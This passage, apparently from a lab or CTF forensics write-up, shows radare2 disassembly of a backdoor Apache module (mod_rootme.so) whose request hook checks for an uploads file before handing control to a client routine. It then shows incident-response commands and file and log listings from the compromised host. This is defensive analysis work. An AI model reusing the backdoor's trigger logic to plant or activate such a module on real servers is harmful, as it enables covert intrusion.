|           0x00001b2f      488bbb500100.  mov rdi, qword [rbx + 0x150] ; [0x150:8]=4
|           0x00001b36      4889c6         mov rsi, rax
|           0x00001b39      e8c2f3ffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
|           0x00001b3e      85c0           test eax, eax
|       ,=< 0x00001b40      740e           je 0x1b50
|       |   ; JMP XREF from 0x00001b61 (sym.rootme_post_read_request)
|      .--> 0x00001b42      4883c408       add rsp, 8
|      :|   0x00001b46      b8ffffffff     mov eax, 0xffffffff         ; -1
|      :|   0x00001b4b      5b             pop rbx
|      :|   0x00001b4c      5d             pop rbp
|      :|   0x00001b4d      c3             ret
       :|   0x00001b4e      6690           nop
|      :|   ; JMP XREF from 0x00001b40 (sym.rootme_post_read_request)
|      :`-> 0x00001b50      488d3dc10000.  lea rdi, qword str.var_www_html_uploads_whiterose.txt ; 0x1c18 ; "/var/www/html/uploads/whiterose.txt"
|      :    0x00001b57      31f6           xor esi, esi
|      :    0x00001b59      e8daf3ffff     call sym.imp.access         ; int access(const char *path, int mode)
|      :    0x00001b5e      83f8ff         cmp eax, 0xff
|      `==< 0x00001b61      74df           je 0x1b42
|           0x00001b63      bf00010000     mov edi, 0x100
|           0x00001b68      89ee           mov esi, ebp
|           0x00001b6a      e801f5ffff     call sym.process_client
|           0x00001b6f      31ff           xor edi, edi
\           0x00001b71      e8d2f3ffff     call sym.imp.exit           ; void exit(int status)
[0x00001b00]>
```

###### Incidence Response

```sh
dom@ubuntu:~$ find / -type f -newermt 2017-12-17 ! -newermt 2017-12-31 -ls 2>/dev/null
    46094      4 -rw-------   1 dom      dom             5 Dec 22 10:38 /home/dom/.bash_history
    46885      4 -r--r--r--   1 root     root           33 Dec 24 11:22 /home/dom/user.txt
    45918      4 -rw-r--r--   1 root     root         1044 Dec 23 11:59 /var/lib/ucf/registry.5
    45953      4 -rw-r--r--   1 root     root          985 Dec 23 11:59 /var/lib/ucf/registry.6
     1848      4 -rw-r--r--   1 root     root         1276 Dec 23 11:59 /var/lib/ucf/registry.0
    46087      4 -rw-r--r--   1 root     root          930 Dec 22 09:10 /var/lib/ucf/cache/:etc:default:rkhunter
    21223      4 -rw-r--r--   1 root     root         1243 Dec 23 11:59 /var/lib/ucf/registry.1
    46355      4 -rw-r--r--   1 root     root         2030 Dec 23 11:59 /var/lib/ucf/hashfile
      863      4 -rw-r--r--   1 root     root         1152 Dec 23 11:59 /var/lib/ucf/registry.3
     1846      4 -rw-r--r--   1 root     root         1960 Dec 22 09:10 /var/lib/ucf/hashfile.0
    45959      4 -rw-r--r--   1 root     root          927 Dec 23 11:59 /var/lib/ucf/registry.7
     1788      4 -rw-r--r--   1 root     root         1101 Dec 23 11:59 /var/lib/ucf/registry.4
    28456      4 -rw-r--r--   1 root     root         1325 Dec 23 11:59 /var/lib/ucf/registry
    44199      4 -rw-r--r--   1 root     root         1190 Dec 23 11:59 /var/lib/ucf/registry.2
    46791    548 -rw-r--r--   1 root     root       560222 Dec 23 11:59 /var/lib/dpkg/status
    45450      4 -rw-r--r--   1 root     root          332 Dec 22 09:10 /var/lib/dpkg/statoverride
    49279      4 -rw-r--r--   1 root     root         1755 Dec 22 10:13 /var/lib/dpkg/info/libltdl-dev:amd64.list
    48656      4 -rw-r--r--   1 root     root          308 Dec 22 10:13 /var/lib/dpkg/info/dh-strip-nondeterminism.list
    49177      4 -rw-r--r--   1 root     root          745 Dec 22 10:13 /var/lib/dpkg/info/libalgorithm-diff-perl.list
    48625      4 -rw-r--r--   1 root     root          952 Dec 22 10:13 /var/lib/dpkg/info/libtool.list
    46635      4 -rw-r--r--   1 root     root          484 Dec 22 09:10 /var/lib/dpkg/info/ruby.list
    48539      4 -rw-r--r--   1 root     root          175 Dec 22 10:13 /var/lib/dpkg/info/libasan3:amd64.list
    48337      4 -rw-r--r--   1 root     root         2803 Dec 22 10:13 /var/lib/dpkg/info/autoconf.list
    46622      4 -rw-r--r--   1 root     root          812 Dec 22 09:10 /var/lib/dpkg/info/ruby2.3.list
    49160      4 -rw-r--r--   1 root     root         1717 Dec 22 10:13 /var/lib/dpkg/info/fakeroot.list
    48274      4 -rw-r--r--   1 root     root         2210 Dec 22 10:13 /var/lib/dpkg/info/m4.list
    49130      0 -rw-r--r--   1 root     root            0 Dec 22 10:13 /var/lib/dpkg/info/g++.md5sums
    49295      4 -rw-r--r--   1 root     root          367 Dec 22 10:13 /var/lib/dpkg/info/libmail-sendmail-perl.list
    48873      4 -rw-r--r--   1 root     root          390 Dec 22 10:13 /var/lib/dpkg/info/intltool-debian.list
    48466      8 -rw-r--r--   1 root     root         5048 Dec 22 10:13 /var/lib/dpkg/info/automake.list
    48213      4 -rw-r--r--   1 root     root          380 Dec 22 10:13 /var/lib/dpkg/info/libsigsegv2:amd64.list
    48563      4 -rw-r--r--   1 root     root          178 Dec 22 10:13 /var/lib/dpkg/info/libubsan0:amd64.list
    46308      4 -rw-r--r--   1 root     root          385 Dec 22 09:10 /var/lib/dpkg/info/bsd-mailx.list
    48646      4 -rw-r--r--   1 root     root          987 Dec 22 10:13 /var/lib/dpkg/info/libfile-stripnondeterminism-perl.list
    48587      4 -rw-r--r--   1 root     root          187 Dec 22 10:13 /var/lib/dpkg/info/libquadmath0:amd64.list
    47131      4 -rw-r--r--   1 root     root          254 Dec 22 10:13 /var/lib/dpkg/info/libsctp1:amd64.list
    48913     16 -rw-r--r--   1 root     root        16307 Dec 22 10:13 /var/lib/dpkg/info/debhelper.list
    46193      4 -rw-r--r--   1 root     root          352 Dec 22 09:10 /var/lib/dpkg/info/liblockfile-bin.list
    46187      4 -rw-r--r--   1 root     root         1105 Dec 22 09:10 /var/lib/dpkg/info/fonts-lato.list
    46606     44 -rw-r--r--   1 root     root        42782 Dec 22 09:10 /var/lib/dpkg/info/libruby2.3:amd64.list
    48592      8 -rw-r--r--   1 root     root         7954 Dec 22 10:13 /var/lib/dpkg/info/libgcc-6-dev:amd64.list
    46328      4 -rw-r--r--   1 root     root          409 Dec 22 09:10 /var/lib/dpkg/info/rubygems-integration.list
    48499      4 -rw-r--r--   1 root     root          446 Dec 22 10:13 /var/lib/dpkg/info/cpp.list
    48492      4 -rw-r--r--   1 root     root          500 Dec 22 10:13 /var/lib/dpkg/info/cpp-6.list
    46354      4 -rw-r--r--   1 root     root          466 Dec 23 11:59 /var/lib/dpkg/info/php7.0-zip.list
    48661      8 -rw-r--r--   1 root     root         5185 Dec 22 10:13 /var/lib/dpkg/info/libdpkg-perl.list
    49138      4 -rw-r--r--   1 root     root          390 Dec 22 10:13 /var/lib/dpkg/info/build-essential.list
    48523      4 -rw-r--r--   1 root     root          172 Dec 22 10:13 /var/lib/dpkg/info/libitm1:amd64.list
    46300      8 -rw-r--r--   1 root     root         6453 Dec 22 09:10 /var/lib/dpkg/info/postfix.list
    49118     40 -rw-r--r--   1 root     root        39351 Dec 22 10:13 /var/lib/dpkg/info/libstdc++-6-dev:amd64.list
    48187     36 -rw-r--r--   1 root     root        32796 Dec 22 10:13 /var/lib/dpkg/info/libaprutil1-dev.list
    48651      4 -rw-r--r--   1 root     root         2095 Dec 22 10:13 /var/lib/dpkg/info/libtimedate-perl.list
    46783      4 -rw-r--r--   1 root     root          497 Dec 22 10:13 /var/lib/dpkg/info/libc-dev-bin.list
    46224      4 -rw-r--r--   1 root     root         1724 Dec 22 09:10 /var/lib/dpkg/info/net-tools.list
    16889      4 -rw-r--r--   1 root     root          605 Dec 22 10:12 /var/lib/dpkg/info/make.list
    46192      4 -rw-r--r--   1 root     root          588 Dec 23 10:31 /var/lib/dpkg/info/netfilter-persistent.list
    46327      4 -rw-r--r--   1 root     root          248 Dec 23 11:59 /var/lib/dpkg/info/libzip4:amd64.list
    46338      4 -rw-r--r--   1 root     root         1176 Dec 22 09:10 /var/lib/dpkg/info/ruby-minitest.list
    48555      4 -rw-r--r--   1 root     root          175 Dec 22 10:13 /var/lib/dpkg/info/libtsan0:amd64.list
    47672      4 -rw-r--r--   1 root     root         1310 Dec 22 10:13 /var/lib/dpkg/info/libexpat1-dev:amd64.list
    48199      4 -rw-r--r--   1 root     root          811 Dec 22 10:13 /var/lib/dpkg/info/autotools-dev.list
    46264      4 -rw-r--r--   1 root     root         2155 Dec 22 09:10 /var/lib/dpkg/info/rkhunter.list
    46333      4 -rw-r--r--   1 root     root         1793 Dec 22 09:10 /var/lib/dpkg/info/ruby-did-you-mean.list
    46747      4 -rw-r--r--   1 root     root          813 Dec 22 09:10 /var/lib/dpkg/info/unhide.list
    49146      4 -rw-r--r--   1 root     root          513 Dec 22 10:13 /var/lib/dpkg/info/libfakeroot:amd64.list
    47642     28 -rw-r--r--   1 root     root        28386 Dec 22 10:13 /var/lib/dpkg/info/libapr1-dev.list
    48690     12 -rw-r--r--   1 root     root         9886 Dec 22 10:13 /var/lib/dpkg/info/dpkg-dev.list
    47151      4 -rw-r--r--   1 root     root         1365 Dec 22 10:13 /var/lib/dpkg/info/libsctp-dev.list
    48673      4 -rw-r--r--   1 root     root          422 Dec 22 10:13 /var/lib/dpkg/info/patch.list
     1875      4 -rw-r--r--   1 root     root          290 Dec 22 09:10 /var/lib/dpkg/info/distro-info-data.list
    47112     20 -rw-r--r--   1 root     root        17198 Dec 22 10:13 /var/lib/dpkg/info/libc6-dev:amd64.list
    49123      4 -rw-r--r--   1 root     root          489 Dec 22 10:13 /var/lib/dpkg/info/g++-6.list
    49236      4 -rw-r--r--   1 root     root          316 Dec 22 10:13 /var/lib/dpkg/info/libltdl7:amd64.list
    48641      4 -rw-r--r--   1 root     root         2185 Dec 22 10:13 /var/lib/dpkg/info/libarchive-zip-perl.list
    48859      8 -rw-r--r--   1 root     root         7128 Dec 22 10:13 /var/lib/dpkg/info/gettext.list
    49224      4 -rw-r--r--   1 root     root         1413 Dec 22 10:13 /var/lib/dpkg/info/libfile-fcntllock-perl.list
    46273      4 -rw-r--r--   1 root     root          462 Dec 22 09:10 /var/lib/dpkg/info/postfix-sqlite.list
    48507      4 -rw-r--r--   1 root     root          173 Dec 22 10:13 /var/lib/dpkg/info/libcc1-0:amd64.list
    48571      4 -rw-r--r--   1 root     root          184 Dec 22 10:13 /var/lib/dpkg/info/libcilkrts5:amd64.list
    49201      4 -rw-r--r--   1 root     root          340 Dec 22 10:13 /var/lib/dpkg/info/libalgorithm-merge-perl.list
    46348      4 -rw-r--r--   1 root     root          607 Dec 22 09:10 /var/lib/dpkg/info/ruby-power-assert.list
    48597      4 -rw-r--r--   1 root     root         2529 Dec 22 10:13 /var/lib/dpkg/info/gcc-6.list
    48579      4 -rw-r--r--   1 root     root          268 Dec 22 10:13 /var/lib/dpkg/info/libmpx2:amd64.list
    46203      4 -rw-r--r--   1 root     root          271 Dec 22 09:10 /var/lib/dpkg/info/liblockfile1:amd64.list
    48476      4 -rw-r--r--   1 root     root          294 Dec 22 10:13 /var/lib/dpkg/info/autopoint.list
    48487      4 -rw-r--r--   1 root     root          253 Dec 22 10:13 /var/lib/dpkg/info/libisl15:amd64.list
    46210      8 -rw-r--r--   1 root     root         6812 Dec 22 09:10 /var/lib/dpkg/info/binutils.list
    47650     12 -rw-r--r--   1 root     root         8412 Dec 22 10:13 /var/lib/dpkg/info/libldap2-dev:amd64.list
    49288      4 -rw-r--r--   1 root     root          527 Dec 22 10:13 /var/lib/dpkg/info/libsys-hostname-long-perl.list
    48605      4 -rw-r--r--   1 root     root         1090 Dec 22 10:13 /var/lib/dpkg/info/gcc.list
    48930      4 -rw-r--r--   1 root     root         3193 Dec 22 10:13 /var/lib/dpkg/info/apache2-dev.list
    46720      4 -rw-r--r--   1 root     root          614 Dec 22 09:10 /var/lib/dpkg/info/unzip.list
    46343      4 -rw-r--r--   1 root     root          637 Dec 22 09:10 /var/lib/dpkg/info/ruby-net-telnet.list
    46712      4 -rw-r--r--   1 root     root          447 Dec 22 10:13 /var/lib/dpkg/info/libmpfr4:amd64.list
    48900      4 -rw-r--r--   1 root     root         3468 Dec 22 10:13 /var/lib/dpkg/info/po-debconf.list
    48636      4 -rw-r--r--   1 root     root          770 Dec 22 10:13 /var/lib/dpkg/info/dh-autoreconf.list
    48515      4 -rw-r--r--   1 root     root          175 Dec 22 10:13 /var/lib/dpkg/info/libgomp1:amd64.list
    46731      4 -rw-r--r--   1 root     root          445 Dec 22 09:10 /var/lib/dpkg/info/zip.list
    46353      4 -rw-r--r--   1 root     root         3697 Dec 22 09:10 /var/lib/dpkg/info/ruby-test-unit.list
    46323      4 -rw-r--r--   1 root     root          367 Dec 22 09:10 /var/lib/dpkg/info/libjs-jquery.list
    49192      4 -rw-r--r--   1 root     root          807 Dec 22 10:13 /var/lib/dpkg/info/libalgorithm-diff-xs-perl.list
    46760      4 -rw-r--r--   1 root     root          248 Dec 22 10:13 /var/lib/dpkg/info/libmpc3:amd64.list
    46756      4 -rw-r--r--   1 root     root          326 Dec 22 09:10 /var/lib/dpkg/info/unhide.rb.list
    49129      4 -rw-r--r--   1 root     root          215 Dec 22 10:13 /var/lib/dpkg/info/g++.list
    48547      4 -rw-r--r--   1 root     root          175 Dec 22 10:13 /var/lib/dpkg/info/liblsan0:amd64.list
    46883     28 -rw-r--r--   1 root     root        28158 Dec 22 10:13 /var/lib/dpkg/info/linux-libc-dev:amd64.list
    49300     72 -rw-r--r--   1 root     root        72612 Dec 22 10:13 /var/lib/dpkg/info/manpages-dev.list
    47120      4 -rw-r--r--   1 root     root          879 Dec 22 10:13 /var/lib/dpkg/info/uuid-dev:amd64.list
    48531      4 -rw-r--r--   1 root     root          181 Dec 22 10:13 /var/lib/dpkg/info/libatomic1:amd64.list
    46705      4 -rw-r--r--   1 root     root         3473 Dec 22 09:10 /var/lib/dpkg/info/rake.list
    46318      4 -rw-r--r--   1 root     root          514 Dec 22 09:10 /var/lib/dpkg/info/javascript-common.list
    46234      4 -rw-r--r--   1 root     root          407 Dec 23 10:31 /var/lib/dpkg/info/iptables-persistent.list
    49304      4 -rw-r--r--   1 root     root          103 Dec 22 10:13 /var/lib/dpkg/alternatives/c++
    49297      4 -rw-r--r--   1 root     root          111 Dec 22 10:13 /var/lib/dpkg/alternatives/c89
    46781      4 -rw-r--r--   1 root     root          347 Dec 22 09:10 /var/lib/dpkg/alternatives/mailx
    49196      4 -rw-r--r--   1 root     root          269 Dec 22 10:13 /var/lib/dpkg/alternatives/automake
    49125      4 -rw-r--r--   1 root     root         1100 Dec 22 10:13 /var/lib/dpkg/alternatives/fakeroot
    48663      4 -rw-r--r--   1 root     root           32 Dec 22 10:13 /var/lib/dpkg/alternatives/cpp
    49296      4 -rw-r--r--   1 root     root          100 Dec 22 10:13 /var/lib/dpkg/alternatives/cc
    49299      4 -rw-r--r--   1 root     root          111 Dec 22 10:13 /var/lib/dpkg/alternatives/c99
     1786      0 -rw-r-----   1 root     root            0 Dec 23 11:59 /var/lib/dpkg/lock
      609    548 -rw-r--r--   1 root     root       560307 Dec 23 11:59 /var/lib/dpkg/status-old
    46265      4 -rw-r--r--   1 root     root            9 Dec 22 09:10 /var/lib/dpkg/triggers/rkhunter-propupd
    46636      4 -rw-r--r--   1 root     root         1534 Dec 22 09:10 /var/lib/dpkg/triggers/File
      198      0 -rw-r--r--   1 root     root            0 Dec 22 10:13 /var/lib/dpkg/triggers/Unincorp
     1792      0 -rw-------   1 root     root            0 Dec 23 11:59 /var/lib/dpkg/triggers/Lock
    45485      4 -rw-r--r--   1 root     root          293 Dec 22 09:10 /var/lib/dpkg/statoverride-old
    46758      4 -rw-r--r--   1 root     root           60 Dec 22 09:10 /var/lib/systemd/deb-systemd-helper-enabled/postfix.service.dsh-also
    46266      4 -rw-r--r--   1 root     root           73 Dec 23 10:31 /var/lib/systemd/deb-systemd-helper-enabled/netfilter-persistent.service.dsh-also
    46759      0 -rw-r--r--   1 root     root            0 Dec 22 09:10 /var/lib/systemd/deb-systemd-helper-enabled/multi-user.target.wants/postfix.service
    46267      0 -rw-r--r--   1 root     root            0 Dec 23 10:31 /var/lib/systemd/deb-systemd-helper-enabled/multi-user.target.wants/netfilter-persistent.service
    46317      4 -rw-r--r--   1 root     root           60 Dec 23 10:31 /var/lib/systemd/deb-systemd-helper-enabled/ureadahead.service.dsh-also
    21509      0 -rw-r--r--   1 systemd-timesync systemd-timesync        0 Dec 24 17:34 /var/lib/systemd/clock
    21516      4 -rw-r--r--   1 root             root                  506 Dec 22 08:35 /var/lib/dhcp/dhclient.ens33.leases
      543     20 -rw-r--r--   1 root             root                16491 Dec 23 11:59 /var/lib/apt/extended_states
    46275     88 -rw-r--r--   1 root             root                89169 Dec 23 11:48 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-updates_InRelease
      618    972 -rw-r--r--   1 root             root               993109 Dec 21 17:53 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-updates_universe_binary-amd64_Packages
    46145    480 -rw-r--r--   1 root             root               487472 Dec 20 08:22 /var/lib/apt/lists/security.ubuntu.com_ubuntu_dists_zesty-security_universe_binary-amd64_Packages
    46147    480 -rw-r--r--   1 root             root               487801 Dec 20 08:22 /var/lib/apt/lists/security.ubuntu.com_ubuntu_dists_zesty-security_universe_binary-i386_Packages
      694     16 -rw-r--r--   1 root             root                16047 Dec 18 01:03 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-backports_universe_binary-amd64_Packages
     2046     16 -rw-r--r--   1 root             root                16003 Dec 18 01:03 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-backports_universe_binary-i386_Packages
      606    912 -rw-r--r--   1 root             root               930104 Dec 19 15:10 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-updates_main_i18n_Translation-en
      620    968 -rw-r--r--   1 root             root               990891 Dec 21 17:53 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-updates_universe_binary-i386_Packages
    46309   1444 -rw-r--r--   1 root             root              1475345 Dec 22 22:48 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-updates_main_binary-i386_Packages
    46324      8 -rw-r--r--   1 root             root                 4200 Dec 22 16:35 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-backports_main_binary-i386_Packages
    46284     88 -rw-r--r--   1 root             root                89217 Dec 23 11:48 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-backports_InRelease
      627    536 -rw-r--r--   1 root             root               548528 Dec 18 10:43 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-updates_universe_i18n_Translation-en
    46288   1472 -rw-r--r--   1 root             root              1506813 Dec 22 22:48 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-updates_main_binary-amd64_Packages
    46322      8 -rw-r--r--   1 root             root                 4207 Dec 22 16:35 /var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_zesty-backports_main_binary-amd64_Packages
    46325     88 -rw-r--r--   1 root             root                89171 Dec 23 11:48 /var/lib/apt/lists/security.ubuntu.com_ubuntu_dists_zesty-security_InRelease
    46748      0 -rw-r--r--   1 root             root                    0 Dec 23 11:59 /var/lib/php/modules/7.0/cli/enabled_by_maint/zip
    46773      0 -rw-r--r--   1 root             root                    0 Dec 23 11:59 /var/lib/php/modules/7.0/registry/zip
    46757      0 -rw-r--r--   1 root             root                    0 Dec 23 11:59 /var/lib/php/modules/7.0/apache2/enabled_by_maint/zip
     1859      8 -rw-r--r--   1 root             root                32032 Dec 22 09:10 /var/log/faillog
    28454      4 -rw-r--r--   1 root             root                  618 Dec 22 09:10 /var/log/fontconfig.log
     1858    488 -rw-r--r--   1 root             root               493630 Dec 23 11:59 /var/log/dpkg.log.1
      171    120 -rw-------   1 root             root               119967 Dec 22 09:12 /var/log/rkhunter.log.1
    46784      0 -rw-r-----   1 root             adm                     0 Dec 24 06:25 /var/log/rkhunter.log
    19446      4 -rw-r-----   1 syslog           adm                   157 Dec 23 14:33 /var/log/mail.err.2.gz
    19449      8 -rw-r-----   1 syslog           adm                  4993 Dec 24 06:25 /var/log/auth.log.2.gz
    19444      4 -rw-r-----   1 syslog           adm                  2537 Dec 27 06:25 /var/log/syslog.2.gz
    19553    108 -rw-r-----   1 syslog           adm                109383 Dec 24 06:25 /var/log/syslog.5.gz
     1854     20 -rw-r--r--   1 root             root                19823 Dec 22 10:13 /var/log/alternatives.log.1
     1857      4 -rw-------   1 root             utmp                 2688 Dec 23 10:38 /var/log/btmp.1
    19447      4 -rw-r-----   1 syslog           adm                   157 Dec 23 14:33 /var/log/mail.log.2.gz
    19441      8 -rw-r--r--   1 root             root                 5878 Dec 23 11:59 /var/log/apt/history.log.1.gz
      197     24 -rw-r--r--   1 root             root                22616 Dec 23 11:59 /var/log/apt/eipp.log.xz
    16888     20 -rw-r-----   1 root             adm                 18449 Dec 23 11:59 /var/log/apt/term.log.1.gz
    46082     28 -rw-r-----   1 syslog           adm                 27249 Dec 25 06:25 /var/log/syslog.4.gz
    46201     28 -rw-r-----   1 syslog           adm                 28443 Dec 26 06:25 /var/log/syslog.3.gz
    19448     88 -rw-r-----   1 syslog           adm                 88652 Dec 23 14:31 /var/log/kern.log.2.gz
    46034      4 -rw-r-----   1 root             adm                  1957 Dec 26 07:03 /var/log/apache2/access.log.1
      600      4 -rw-r-----   1 root             adm                   338 Dec 27 06:25 /var/log/apache2/error.log.2.gz
    45950      4 -rw-r-----   1 root             adm                   411 Dec 25 06:25 /var/log/apache2/error.log.4.gz
    46188      4 -rw-r-----   1 root             adm                   408 Dec 26 06:25 /var/log/apache2/error.log.3.gz
      630      4 -rw-r-----   1 root             adm                  2397 Dec 24 06:25 /var/log/apache2/error.log.5.gz
    21513    292 -rw-r-----   1 root             adm                297525 Dec 23 15:11 /var/log/apache2/access.log.3.gz
    46185      4 -rw-r-----   1 root             adm                   184 Dec 25 13:15 /var/log/apache2/access.log.2.gz
    46610     32 -rw-r--r--   1 root             root                28936 Dec 22 09:10 /var/cache/fontconfig/bf3b770c553c462765856025a94f1ce6-le64.cache-6
    46623      4 -rw-r--r--   1 root             root                  200 Dec 22 09:10 /var/cache/fontconfig/CACHEDIR.TAG
    46624      4 -rw-r--r--   1 root             root                  136 Dec 22 09:10 /var/cache/fontconfig/3830d5c3ddfd5cd38a049b759396e72e-le64.cache-6
    28460      4 -rw-r--r--   1 root             root                  192 Dec 22 09:10 /var/cache/fontconfig/7ef2298fde41cc6eeb7af42e48b7d293-le64.cache-6
    46302     56 -rw-r--r--   1 root             root                54736 Dec 23 10:31 /var/cache/debconf/config.dat
    21625     56 -rw-r--r--   1 root             root                54736 Dec 23 10:31 /var/cache/debconf/config.dat-old
    46307   2760 -rw-r--r--   1 root             root              2824258 Dec 23 10:31 /var/cache/debconf/templates.dat-old
    46722   2760 -rw-r--r--   1 root             root              2824258 Dec 23 11:59 /var/cache/debconf/templates.dat
      558  45748 -rw-r--r--   1 root             root             46843220 Dec 23 11:59 /var/cache/apt/pkgcache.bin
      204  45748 -rw-r--r--   1 root             root             46843160 Dec 23 11:59 /var/cache/apt/srcpkgcache.bin
    46156      4 -rw-r--r--   1 root             dom                   426 Dec 23 11:25 /var/www/html/view.php
    46165      4 -rw-r--r--   1 root             dom                   523 Dec 22 10:40 /var/www/html/list.php
    46163      4 -rw-r--r--   1 root             dom                  2515 Dec 23 12:50 /var/www/html/index.php
    46170      4 -rw-r--r--   1 dom              dom                   251 Dec 23 11:17 /var/www/html/uploads/whiterose.txt
    46150      4 -rw-r--r--   1 root             dom                  1889 Dec 23 11:29 /var/www/html/upload.php
      564     20 -rw-r--r--   1 root             root                16491 Dec 23 11:59 /var/backups/apt.extended_states.0
    46329      4 -rw-r--r--   1 root             root                 1896 Dec 23 10:31 /var/backups/apt.extended_states.1.gz
    46342    156 -rw-r--r--   1 root             root               157916 Dec 22 10:13 /var/backups/dpkg.status.1.gz
      549     52 -rw-r--r--   1 root             root                51200 Dec 23 06:25 /var/backups/alternatives.tar.0
    19471      4 -rw-------   1 root             root                  797 Dec 22 09:10 /var/backups/group.bak
      521      4 -rw-r--r--   1 root             root                  332 Dec 22 09:10 /var/backups/dpkg.statoverride.0
      523      4 -rw-------   1 root             root                 1505 Dec 22 09:10 /var/backups/passwd.bak
    46774      4 -rw-r--r--   1 root             root                  214 Dec 22 09:10 /var/backups/dpkg.statoverride.1.gz
    46274      4 -rw-r--r--   1 root             root                 1886 Dec 22 10:13 /var/backups/apt.extended_states.2.gz
    19548      4 -rw-------   1 root             shadow                667 Dec 22 09:10 /var/backups/gshadow.bak
    19524      4 -rw-------   1 root             shadow                864 Dec 22 09:10 /var/backups/shadow.bak
      345    548 -rw-r--r--   1 root             root               560222 Dec 23 11:59 /var/backups/dpkg.status.0
   199186     48 -rw-r-----   1 root             dom                 48584 Dec 22 10:16 /usr/lib/apache2/modules/mod_rootme.so
   131511     12 -rw-r--r--   1 root             root                11595 Dec 22 10:13 /usr/share/info/dir.old
   131734     16 -rw-r--r--   1 root             root                14287 Dec 22 10:13 /usr/share/info/dir
   131565      4 -rw-------   1 root             root                  864 Dec 22 09:10 /etc/shadow-
   132827      4 -rw-r--r--   1 root             root                 3611 Dec 22 09:10 /etc/mailcap
   164699      4 -rw-------   1 root             root                  781 Dec 22 09:10 /etc/group-
   132830      4 -rw-r--r--   1 root             root                   43 Dec 22 09:10 /etc/postfix/dynamicmaps.cf
   131748      8 -rw-r--r--   1 root             root                 6068 Dec 22 09:10 /etc/postfix/master.cf
   199190      8 -rw-r--r--   1 root             root                 6068 Dec 22 09:10 /etc/postfix/master.cf.proto
   199187     28 -rw-r--r--   1 root             root                27126 Dec 22 09:10 /etc/postfix/main.cf.proto
   199011      4 -rw-r--r--   1 root             root                 1505 Dec 22 09:10 /etc/passwd
   131656      4 -r--r-----   1 root             root                  758 Dec 22 08:56 /etc/sudoers
   198067      4 -rw-r--r--   1 root             root                   51 Dec 22 09:10 /etc/aliases
   200689     28 -rw-r--r--   1 root             root                28383 Dec 23 11:59 /etc/ld.so.cache
   133798      4 -rw-r-----   1 root             shadow                667 Dec 22 09:10 /etc/gshadow
   131412      4 -rw-------   1 root             root                  654 Dec 22 09:10 /etc/gshadow-
   198044      4 -rw-r-----   1 root             shadow                864 Dec 22 09:10 /etc/shadow
   200647      4 -rw-r--r--   1 root             root                  930 Dec 22 09:10 /etc/default/rkhunter
   199191      4 -rw-r--r--   1 root             root                  797 Dec 22 09:10 /etc/group
   131304      4 -rw-r--r--   1 root             root                  412 Dec 22 09:00 /etc/network/interfaces
   200666      4 -rw-r-----   1 root             root                  413 Dec 23 10:47 /etc/iptables/rules.v4
   200667      4 -rw-r-----   1 root             root                  191 Dec 23 10:47 /etc/iptables/rules.v6
   166046      4 -rw-------   1 root             root                 1505 Dec 22 09:10 /etc/passwd-
dom@ubuntu:~$
```

```sh
dom@ubuntu:~$ cd /var/log/
dom@ubuntu:/var/log$ ls -l
total 2548
-rw-r--r-- 1 root   root      0 Jun  4 06:25 alternatives.log
-rw-r--r-- 1 root   root  19823 Dec 22 10:13 alternatives.log.1
drwxr-x--- 2 root   adm    4096 Jun  4 06:25 apache2
drwxr-xr-x 2 root   root   4096 Jun  4 06:25 apt
-rw-r----- 1 syslog adm   15263 Jun  5 01:00 auth.log
-rw-r----- 1 syslog adm   90077 Jun  4 06:25 auth.log.1
-rw-r----- 1 syslog adm    4993 Dec 24 06:25 auth.log.2.gz
-rw-r--r-- 1 root   root  59400 Apr 11  2017 bootstrap.log
-rw-rw---- 1 root   utmp      0 Jun  4 06:25 btmp
-rw------- 1 root   utmp   2688 Dec 23 10:38 btmp.1
drwxr-xr-x 2 root   root   4096 Apr 11  2017 dist-upgrade
-rw-r--r-- 1 root   root      0 Jun  4 06:25 dpkg.log
-rw-r--r-- 1 root   root 493630 Dec 23 11:59 dpkg.log.1
-rw-r--r-- 1 root   root  32032 Dec 22 09:10 faillog
-rw-r--r-- 1 root   root    618 Dec 22 09:10 fontconfig.log
drwxr-xr-x 3 root   root   4096 Dec 16 13:22 installer
-rw-r----- 1 syslog adm     429 Jun  4 22:54 kern.log
-rw-r----- 1 syslog adm  773224 Jun  3 19:28 kern.log.1
-rw-r----- 1 syslog adm   88652 Dec 23 14:31 kern.log.2.gz
-rw-rw-r-- 1 root   utmp 292292 Jun  5 00:26 lastlog
-rw-r----- 1 syslog adm    1296 Jun  4 18:00 mail.err
-rw-r----- 1 syslog adm   10163 Jun  4 06:00 mail.err.1
-rw-r----- 1 syslog adm     157 Dec 23 14:33 mail.err.2.gz
-rw-r----- 1 syslog adm    1296 Jun  4 18:00 mail.log
-rw-r----- 1 syslog adm   10163 Jun  4 06:00 mail.log.1
-rw-r----- 1 syslog adm     157 Dec 23 14:33 mail.log.2.gz
-rw-r----- 1 root   adm       0 Dec 24 06:25 rkhunter.log
-rw------- 1 root   root 119967 Dec 22 09:12 rkhunter.log.1
-rw-r----- 1 syslog adm   21455 Jun  5 01:00 syslog
-rw-r----- 1 syslog adm  539282 Jun  4 06:25 syslog.1
-rw-r----- 1 syslog adm    2537 Dec 27 06:25 syslog.2.gz
-rw-r----- 1 syslog adm   28443 Dec 26 06:25 syslog.3.gz
-rw-r----- 1 syslog adm   27249 Dec 25 06:25 syslog.4.gz
-rw-r----- 1 syslog adm  109383 Dec 24 06:25 syslog.5.gz
drwxr-xr-x 2 root   root   4096 Dec 16 13:22 vmware
-rw-r--r-- 1 root   root  13635 Jun  3 19:28 vmware-vmsvc.log
-rw-rw-r-- 1 root   utmp    384 Jun  5 00:26 wtmp
-rw-rw-r-- 1 root   utmp  33408 Jun  3 19:28 wtmp.1
dom@ubuntu:/var/log$
```

```sh
dom@ubuntu:/var/log/apache2$ zcat access.log.[234].* | tail -n 30
